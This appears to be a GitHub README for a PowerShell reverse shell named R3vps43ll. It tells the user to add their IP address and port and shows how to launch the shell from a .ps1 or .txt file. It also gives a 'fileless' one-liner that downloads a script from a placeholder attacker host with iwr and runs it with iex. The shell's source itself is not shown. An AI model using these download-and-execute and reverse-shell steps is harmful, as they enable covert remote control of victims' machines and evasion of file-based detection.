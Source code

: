 # R3vps43ll

 R3vps43ll is a PowerShell reverse shell with limited capabilities. It is uploaded as a .txt file and can be used as such.
 
 # Remember
 
 Add your IP Address and Port number.
 
 # How to Use
 
 You can save as .ps1 and runas in PowerShell:
 ```Powershell
 .\r3vps43ll.ps1
 ```
 # Or
 
 Run it like this in PowerShell:
 ```Powershell
 gc -raw .\r3vps43ll.txt | iex
```
# Fileless Approach
```Powershell
(iwr 'http://< YOUR IP >/< DIRECTORY >/filename.txt' -UseBasicParsing) | iex
```
